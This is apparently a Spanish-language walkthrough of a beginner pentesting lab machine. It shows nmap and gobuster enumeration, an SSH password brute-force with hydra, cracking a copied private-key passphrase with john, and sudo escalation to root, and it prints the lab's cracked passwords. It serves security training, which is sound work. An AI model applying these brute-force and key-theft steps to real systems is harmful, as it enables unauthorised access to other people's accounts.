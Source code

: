 In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

Empezamos con un scan a todos los puertos:

``` bash
sudo nmap -p- -Pn --min-rate 5000 10.10.32.85
```

``` bash
Nmap scan report for 10.10.32.85
Host is up (0.051s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

obtenemos varios puertos abiertos, escaneamos cada puerto para que nmap nos de las versiones de los servicios y haga scripts por defecto para enumerar los servicios:

1. **Find the services exposed by the machine:** 

``` bash
sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.32.85
```

``` shell
Nmap scan report for 10.10.32.85
Host is up (0.048s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2024-05-12T12:02:28-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-05-12T16:02:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s

```

enumeramos el servicio http para la primera respuesta de la maquina:

2. **What is the name of the hidden directory on the web server(enter name without /)?**

usaremos gobuster  para enumerar los directorios web:

``` bash
gobuster dir -u 10.10.32.85 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster-basicpentesting.png](assets/gobuster-basicpentesting.png)

la respuesta es: **development**


en el directorio development encontraremos un idexado de archivos 

![IndexDirBasicPents.png](IndexDirBasicPents.png)

dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Aqui podemos deducir que hay dos ususarios, por ahora J y K y que J tiene una paswor debil, por lo que vamos a usar fuerza bruta en el servicio ssh con hydra.

**User brute-forcing to find the username & password**

**What is the username?**

Enumeraremos el servicio SAMBA con enum4linux:

``` bash
enum4linux <IP-TARGET>
```

y obtenemos el domain name:
``` bash
Domain Name: WORKGROUP
```

y los usuarios :
``` bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

a acontinucion usamos hydra para hacer fuerza bruta con el ussuario Jan en el servicio ssh ya que en el mensaje que encontramos en el directorio development sabemos que tien una pass debil.

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.32.85
```

y tras un largo cafe obtenemos la password
![passBasicPents.png](passBasicPents.png)
 la respuesta es: **armando**


Entramos al servicio ssh como jan y tras recorrer las capretas de ususario entramos a la carpeta de kay y vemos esto

![dirKayBPENTS.png](dirKayBPENTS.png)

entramos en la carpeta .ssh y vemos el id_rsa de kay

![is_rsaBSPENTS.png](is_rsaBSPENTS.png)

asi que suaremos la herramienta john para obtener la contraseña del id_rsa, primero nos creamos un archivo pegando todo el id_rsa y con ssh2john hasheamos el id_rsa.

``` bash
nano kay_id_rsa
# copiamos dentro del nano el texto del id_rsa
ssh2john kay_id_rsa > hashjohn.txt
# despues usamos john para crackear la contraseña
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hashjohn.txt
```

![kayHash.png](kayHash.png)

y obtenemos la contraseña: **beeswax**

entramos al ssh de kay usando su id_rsa:

![sshKay.png](sshKay.png)

nos vamos al home de kay y leemos el archivo pass.bak, con esto obtenemos la ultima pregunta :
**What is the final password you obtain?**

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$"
```

con esto ya estaria la maquina hecho pero vamos a hacernos root, con el ususario de kay hacemos un sudo -l para ver los permisos sudo que tenemos, ponemos la contraseña anteriormente encontrada y obtenemos esto

![PrivKay.png](PrivKay.png)

tenemos permisos para todo, así que para ser ususario root lo tenemos que hacer el cambio de ususario :

```
sudo -su root
```

y obtenemos root:
![kayRoot.png](kayRoot.png)

y ya estaría la maquina completamente vulnerada.

